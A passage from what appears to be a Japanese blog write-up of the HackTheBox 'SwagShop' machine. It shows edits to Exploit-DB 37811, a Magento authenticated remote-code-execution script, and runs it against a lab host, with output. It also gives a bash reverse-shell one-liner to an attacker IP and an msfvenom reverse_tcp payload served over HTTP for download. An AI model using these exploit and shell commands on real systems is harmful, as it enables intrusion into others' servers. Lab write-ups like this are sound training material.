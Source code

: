 ![スクリーンショット 2020-06-19 11.33.58.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/4dd2108b-b83f-74e5-ce0c-90da5db25a09.png)


![スクリーンショット 2020-06-19 11.24.13.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c2df6f36-7b18-b1ce-d9d0-1e55db57219b.png)

login できました

## 37811.py
https://www.exploit-db.com/exploits/37811

```
kali@kali:~$ searchsploit -p 37811
  Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37811
     Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied EDB-ID #37811's path to the clipboard.
```

これを使います
この exploit がそれはもういろんなエラーを吐くんですわ
以下の変更を加えて解決しました。

以下の二行をコメントアウト
参考：https://forum.hackthebox.eu/discussion/2304/swagshop-rce

```37811.py
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
```

url の 7d を 2y に変更（実際に url にアクセスすればわかりますが、7d とか 2y は期間を表しています（7days, 2years）

```37811.py
- request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
+ request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)
```

```
kali@kali:~$ python 37811.py 'http://10.10.10.140/index.php/admin' "uname -a"
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

```

RCE が通りました

## shellをとる

`bash -i >& /dev/tcp/10.10.14.8/1212 0>&1`はうまく行かなかったので msfvenom のスクリプトを upload する方法を取りました。

```:shell1
kali@kali:~$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.14.8 LPORT=1212  -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
kali@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.140 - - [19/Jun/2020 09:53:12] "GET /shell.elf HTTP/1.1" 200 -

```

